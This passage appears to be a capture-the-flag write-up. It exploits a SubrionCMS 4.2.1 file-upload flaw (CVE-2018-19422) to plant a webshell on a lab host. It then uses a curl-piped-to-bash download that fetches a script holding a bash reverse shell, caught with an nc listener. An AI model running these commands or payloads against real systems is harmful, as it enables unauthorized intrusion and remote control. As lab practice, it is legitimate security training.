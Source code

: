 **Steps:**
1. Download exploit from https://www.exploit-db.com/exploits/49876.
2. Create subrionexploit.py.

**Terminal 1 - Running Exploit:**
```bash
sudo python3 subrionexploit.py -u http://10.201.103.138/subrion/panel/
```

**Output:**
```
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.201.103.138/subrion/panel/
[+] Success!
[+] Got CSRF token: mH42jkt9yvotiSvVjsnf3KeGbDJVXajclSXdedHf
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: blmumapteswrfsz

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.201.103.138/subrion/panel/uploads/blmumapteswrfsz.phar 

$ curl 10.9.1.159:8080/hack.sh |bash
```

**Terminal 2 - Creating Payload:**
```bash
vim hack.sh
#!/bin/bash
bash -i >& /dev/tcp/10.9.1.159/4444 0>&1
```

**Terminal 3 - Serving Payload:**
```bash
python3 -m http.server 8080
```

**Terminal 4 - Listening for Shell:**
```bash
nc -lvnp 4444
```

**Output (Shell):**
```
listening on [any] 4444 ...
connect to [10.9.1.159] from (UNKNOWN) [10.201.103.138] 35250
bash: cannot set terminal process group (1378): Inappropriate ioctl for device
bash: no job control in this shell
www-data@TechSupport:/var/www/html/subrion/uploads$
```

**Analysis:**
- Gained reverse shell as www-data.
